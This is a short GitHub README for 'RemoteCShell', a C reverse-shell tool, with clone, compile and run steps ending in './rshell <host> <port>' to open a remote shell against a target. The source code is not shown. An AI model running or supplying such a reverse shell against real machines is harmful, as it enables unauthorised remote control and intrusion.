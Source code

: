# Remote C Shell 🐚

Welcome to the Remote C Shell repository! This C-based reverse shell enables remote command execution on a target machine. 

## Usage 📋

To use the remote shell, run the following command:

```bash
./rshell <host> <port>
```

## Files in This Repository 📂

- `LICENSE`: License information for the project.
- `Makefile`: Makefile to compile the project.
- `README.md`: This readme file.
- `rshell.c`: The source code for the reverse shell.

## Getting Started 🚀

1. **Clone the repository:**

    ```bash
    git clone https://github.com/fenrirsec/RemoteCShell.git
    cd RemoteCShell
    ```

2. **Compile the source code:**

    ```bash
    make
    ```

3. **Run the reverse shell:**

    ```bash
    ./rshell <host> <port>
    ```

Replace `<host>` with the target IP address and `<port>` with the desired port number.

---

Stay safe and use responsibly! 🛡️
